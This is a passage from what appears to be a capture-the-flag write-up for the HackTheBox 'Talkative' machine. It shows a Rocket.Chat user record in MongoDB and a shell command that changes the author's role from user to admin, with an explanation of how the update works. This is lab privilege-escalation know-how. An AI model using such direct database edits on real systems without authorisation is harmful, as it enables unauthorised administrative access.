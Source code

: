         "resume" : { 
          "loginTokens" : [
            { 
              "when" : ISODate("2022-08-22T20:30:15.872Z"), 
              "hashedToken" : "KuQPV+DNYyaY8cVEPfGNn0hUEzBWpp0WJSNUhblNQMg=" 
            }
          ] 
        }
      }, 
      "emails" : [
        { 
          "address" : "0xdf@talkative.htb", 
          "verified" : false 
        } 
      ], 
      "type" : "user",
      "status" : "online",
      "active" : true, 
      "_updatedAt" : ISODate("2022-08-22T20:30:15.923Z"), 
      "roles" : [ "user" ], 
      "name" : "0xdf", 
      "lastLogin" : ISODate("2022-08-22T20:30:15.868Z"), 
      "statusConnection" : "online", 
      "utcOffset" : 0, 
      "username" : "0xdf"
    }
    

There’s a good bit of JSON there, but the big difference between our accounts
is the `roles` field, where I have “user”, and saul has “admin”.

#### Add Admin

I’ll use Mongo to give my account the admin role:

    
    
    rs0:PRIMARY> db.users.update({"_id": "D2ze5944wkr99XKoj"}, { $set: { "roles" : ["admin"]}})
    WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
    

`db.users.update` is calling the `update` method on the `users` collection.
This takes two parameters. The first identifies which objects are to be
updated. In this case, I’ll use the `_id` for my user to make sure it just
changes me. The second is what and how to modify. The `$set`
[operator](https://www.mongodb.com/docs/manual/reference/operator/update/set/)
replaces the value of a field with the given value. Then I pass it the `roles`
field, and set it to `["admin"]` to match saul.

Now on refreshing `/admin`, there’s a lot more there than before:

[
![image-20220822164603124](https://0xdfimages.gitlab.io/img/image-20220822164603124.png)
](https://0xdfimages.gitlab.io/img/image-20220822164603124.png)
